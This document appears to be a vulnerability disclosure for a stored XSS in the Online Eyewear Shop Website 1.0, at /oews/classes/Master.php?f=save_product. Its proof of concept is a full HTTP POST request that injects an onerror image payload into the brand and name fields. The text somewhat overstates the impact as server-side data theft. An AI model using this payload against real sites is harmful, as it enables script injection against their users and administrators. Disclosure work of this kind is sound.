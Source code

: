 ## Online optical shop website has XSS vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Master.php?f=save_product

## Description:
The online eyewear store website 1.0 has an XSS attack in /oews/classes/Master.php?f=save_product. The attack parameter is brand. An attacker can exploit this vulnerability to directly obtain sensitive information from the server.

Status: Moderate

POC
```
POST /oews/classes/Master.php?f=save_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------131405002413969045363430851847
Content-Length: 1195
Origin: http://localhost
Connection: close
Referer: http://localhost/oews/admin/?page=products/manage_product&id=1
Cookie: PHPSESSID=e8a2fnat0qfqfbb3m0uv0i8sgc
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="id"

1
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="brand"

## Brand 101<img src=1 onerror=alert(1)>
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="name"

Sunglasses 101<img src=1 onerror=alert(1)>
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="category_id"

2
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="description"

Lorem ipsum dolor sit amet, consectetur adipiscing elit. Mauris vulputate vestibulum massa, eget ultricies nisi cursus quis.
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="price"

355.99
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="status"

1
-----------------------------131405002413969045363430851847
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------131405002413969045363430851847--
```

```
Through <img src=1 onerror=alert(1)>, a pop-up window can be directly triggered, and it is a stored XSS
```
![CleanShot 2025-04-03 at 12 38 11@2x](https://github.com/user-attachments/assets/00ce1b0d-17cb-488e-99bb-58efe26f5bd9)


